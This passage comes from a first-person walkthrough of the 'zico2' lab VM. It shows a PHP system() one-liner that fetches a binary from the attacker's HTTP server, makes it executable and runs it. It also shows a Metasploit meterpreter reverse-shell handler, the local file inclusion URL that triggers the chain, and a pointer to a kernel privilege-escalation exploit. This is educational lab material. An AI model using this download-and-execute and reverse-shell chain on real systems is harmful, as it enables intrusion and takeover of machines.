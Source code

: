 Next I started an HTTP server in the directory that contained my payload using the Python SimpleHTTPServer module by running `python -m SimpleHTTPServer 8000`.

After that, I had to create the PHP script on the target VM to download and execute my payload. The contents of that script was:

``` php
<?php system("cd /tmp; wget http://192.168.56.102:8000/shell; chmod a+x shell; ./shell"); ?>
```

Finally, before I executed the PHP script to download and execute my payload, I needed to start a Metasploit handler for my reverse shell.

~~~
~/b/zico2 # ❯❯❯ msfconsole
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v4.16.22-dev                         ]
+ -- --=[ 1707 exploits - 970 auxiliary - 299 post        ]
+ -- --=[ 503 payloads - 40 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload linux/x64/meterpreter_reverse_tcp
payload => linux/x64/meterpreter_reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.56.102
LHOST => 192.168.56.102
msf exploit(multi/handler) > set LPORT 12345
LPORT => 12345
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.56.102:12345 
~~~

Now that everything was in place, I browsed to http://192.168.56.101/view.php?page=../../../usr/databases/shell.php and my reverse meterpreter session connected!

~~~
[*] Started reverse TCP handler on 192.168.56.102:12345 
[*] Meterpreter session 1 opened (192.168.56.102:12345 -> 192.168.56.101:42440) at 2017-12-17 20:37:43 +0000

meterpreter > 
~~~

My phpinfo() proof of concept from earlier told me Apache was running as the www-data user, which is an unprivileged user. So in order to get a root shell, I would need to find a local privilege escalation vulnerability. The phpinfo() proof of concept also disclosed I was looking at an Ubuntu distribution running Linux Kernel version 3.2.0-23. The first Google result for 'linux kernel 3.2.0-23' is an [Exploit DB page](https://www.exploit-db.com/exploits/33589/) with a local privilege escalation exploit, CVE-2013-2094.
